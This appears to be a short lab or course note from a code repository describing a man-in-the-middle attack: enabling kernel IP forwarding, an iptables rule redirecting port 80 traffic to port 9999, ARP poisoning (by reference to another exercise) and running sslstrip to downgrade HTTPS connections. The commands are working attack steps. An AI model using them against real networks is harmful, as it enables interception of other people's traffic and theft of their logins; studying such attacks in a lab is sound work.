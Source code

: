 change kernel configuration and iptables to forward traffic from one target to another (victim <-> gateway) -> arp poisoning -> ssl stripping


enable IP forwarding by kernel:  
`sudo sysctl net.ipv4.ip_forward=1`   
`sysctl` is a tool for examining and changing kernel parameters at runtime  
OR  
`sudo su` (sudoers don't have such priviledges :O)  
`echo "1" > /proc/sys/net/ipv4/ip_forward`  

for change persistent after reboot edit `/etc/sysctl.d/30-ipforward.conf`  
e.g.  
```
net.ipv4.ip_forward=1
net.ipv6.conf.default.forwarding=1
net.ipv6.conf.all.forwarding=1
```


Configure iptables:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 9999`  
`sslstrip` will listen on 9999, thus working only on to-be-redirected HTTPs  

`iptables` run as `systemd` service. To start on reboot you have to `enable` it.   
rules to be loaded are located in `/etc/iptables/iptables.rules` for `iptables.service` and in `/etc/iptables/ip6tables.rules` for `ip6tables.service`      
to save rules passed via cli to conf file: `iptables-save -f` `/etc/iptables/iptables.rules`   
if conf file edited - `reload` via `systemctl`   

ARP poisoning like in [zad8](./zad8.md)  

`sslstrip -l 9999`     